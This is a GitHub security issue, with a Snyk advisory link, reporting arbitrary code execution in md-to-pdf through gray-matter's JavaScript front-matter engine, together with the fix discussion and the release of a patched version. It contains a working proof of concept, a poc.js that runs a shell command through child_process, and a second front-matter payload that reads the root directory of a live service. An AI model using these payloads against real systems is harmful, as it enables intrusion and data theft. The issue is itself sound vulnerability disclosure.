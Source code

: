 
##
#
https://github.com/simonhaenisch/md-to-pdf/issues/99
#
https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880
#
##


Security: gray-matter exposes front matter JS-engine that leads to arbitrary code execution #99
Closed
magicOz opened this issue on Sep 22, 2021 · 6 comments
Comments
@magicOz
magicOz commented on Sep 22, 2021
The library gray-matter (used by md-to-pdf to parse front matter) exposes a JS-engine by default, which essentially runs eval on the given Markdown.

https://github.com/simonhaenisch/md-to-pdf/blob/master/src/lib/md-to-pdf.ts#L26

Given that md-to-pdf is only a Markdown to PDF-library and looking at how other projects use it - I think it is an undesirable feature to be able to execute any arbitrary Javascript by anyone in control of the Markdown content.

A possible fix would be to override gray-matter's JS-engine:

const { content: md, data: frontMatterConfig } = grayMatter(mdFileContent, { engines : { js : () => {} } } );
PoC:

$ cat /tmp/RCE.txt
cat: /tmp/RCE.txt: No such file or directory
$ node poc.js 
$ cat /tmp/RCE.txt
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
poc.js:

const { mdToPdf } = require('md-to-pdf');

var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';

(async () => {
	await mdToPdf({ content: payload }, { dest: './output.pdf' });
})();
@magicOz magicOz added the bug label on Sep 22, 2021
@simonhaenisch
Owner
simonhaenisch commented on Sep 22, 2021 • 
Thanks for the info. I wasn't aware of this feature in gray-matter.

I think it is an undesirable feature to be able to execute any arbitrary Javascript by anyone in control of the Markdown content.

I think you shouldn't use a tool like this on markdown content that you don't control, especially not without any security concerns (i. e. never trust user input), but yeah I agree that it might prevent some accidental security problems if the JS engine was disabled.

@simonhaenisch
Owner
simonhaenisch commented on Sep 22, 2021 • 
I just checked the docs and it's also possible to set { language: 'yaml' } which should already be sufficient to disable JS code execution. Might make sense to expose this options object as a config option so that people can change it to js explicitly in case they want to use JS in their front matter.

@magicOz
Author
magicOz commented on Sep 22, 2021 • 
The documentation seems to be a bit misleading and { language : '...' } actually just means the default engine if the language identifier is omitted from the front matter, all engines are still accessible by using ---<language identifier>.

Agree, an opt-in config option for which engines to use makes sense and sounds like the right way to solve this.

simonhaenisch reacted with thumbs up emoji
@simonhaenisch
Owner
simonhaenisch commented on Sep 23, 2021 • 
BTW I saw in your Github activity that you also raised an issue with dillinger.io which is using this package, and I'm actually able to use this exploit there, e. g. I would add a front matter like

---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
and then use export > PDF. I'm not sure about the damage that can be done here but one idea would be to try and send myself all file exports that are happening in the hopes that someone uses dillinger.io for secret/internal data.

FYI @joemccann, I'll see that I get a new major version out that disables this feature by default, and make a PR to your repo to update the package.

magicOz, Hat70ri, saamnguyen, owalid, and protoEvangelion reacted with thumbs up emoji
@magicOz
Author
magicOz commented on Sep 23, 2021
Yes, you're right - I was reviewing dillinger and that's how I found this library. :)
Currently, instances of dillinger are vulnerable to RCE due to this.

@simonhaenisch simonhaenisch closed this as completed in a716259 on Sep 24, 2021
@simonhaenisch
Owner
simonhaenisch commented on Sep 24, 2021
Released version 5.0.0 with a fix for this, i. e. the JS engine throws an error about being disabled by default, and you can overwrite the gray-matter options with null or undefined to restore the original behavior.

This was referenced on Sep 24, 2021
update md-to-pdf to prevent RCE via javascript front-matter joemccann/dillinger#821
 Merged
Security consideration: disable JS engine by default to prevent RCEs in dependents jonschlinkert/gray-matter#131
